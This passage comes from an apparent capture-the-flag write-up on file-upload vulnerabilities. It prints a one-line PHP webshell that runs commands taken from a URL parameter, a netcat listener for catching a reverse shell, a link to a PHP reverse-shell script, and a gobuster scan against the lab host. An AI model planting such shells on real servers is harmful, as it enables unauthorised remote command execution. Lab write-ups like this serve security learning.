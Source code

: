 If a directory is found that can plausibly house uploads from the web form, an uploaded webshell can be reached via the browser. If, as in the example, the server is running PHP, then a simple webshell can be invoked via:

```php
<?php 
	echo system($_GET["cmd"]);
?>
```

From this point, system files can be read and/or attempts to upgrade the webshell to a remote shell.

#### Remote Shell
After editing and uploading the necessary reverse shell script, such as [Pentest Monkey's 2007 PHP tool](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), the attacking machine can invoke a `netcat` listener via the venerable

```shell
nc -lvnp 4444
```

The shell script will be activated by navigating to the uploaded shell's location on the server with a browser. This will give the attacker RCE capabillities on the target server, though ideally the reverse shell would then be stabilized with user privileges escalated.

#### Question 5.1
##### Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads?

Running:

```shell
gobuster dir -u shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

creates the following output:

![UV - Gobuster](/images/uv/uv-gobuster.png)

**Answer:** `/resources`

#### Question 5.2
##### Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server?

After editing and uploading the aforementioned Pentest Monkey PHP script, we instantiate the `netcat` listener

![ncl](/images/uv/uv-ncl.png)

When we navigate to our uploaded ptm script at `http://shell.uploadvulns.thm/resources/ptm-shell.php`, we are greeted with


[^1]: i.e., without access to, or knowledge of, the source code.
